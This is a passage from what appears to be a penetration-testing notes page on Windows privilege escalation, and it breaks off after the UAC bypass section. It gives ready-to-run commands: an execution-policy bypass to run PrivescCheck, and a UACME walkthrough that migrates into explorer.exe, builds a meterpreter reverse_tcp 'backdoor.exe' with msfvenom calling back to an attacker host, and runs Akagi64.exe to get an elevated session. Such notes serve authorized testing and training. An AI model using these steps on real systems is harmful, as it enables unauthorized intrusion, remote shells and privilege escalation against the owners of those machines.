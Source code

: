```yaml
---
title: "Privilege Escalation"
weight: 4
description: "Learn about various techniques and methods for privilege escalation on both Windows and Linux systems, including UAC bypass, credential dumping, exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


# Privilege Escalation

## Windows

{{< hint style=notes >}}
**Note**: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM.
{{< /hint >}}

### Automation script

```cmd
:: https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

### UAC Bypass

User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.

Prerequisites:

1. User must be a member of the Administrators group. `net localgroup administrators`
2. Full interactive shell with the victim like meterpreter (a common nc.exe shell is not enough).

**(1) Metasploit**

```sh
search bypassuac
```

**(2) UACME**

```sh
# 1. Step
ps
migrate <PID explorer.exe>

# 2. Step - Upload Akagi (Akagi64.exe if x64)

# 3. Step - Create payload with msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe

# 4. Step - Start a listener (exploit/multi/handler)

# 5. Step - Run Akagi
Akagi64.exe 23 <payload_full_path> # NOTE FULL PATH

# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```
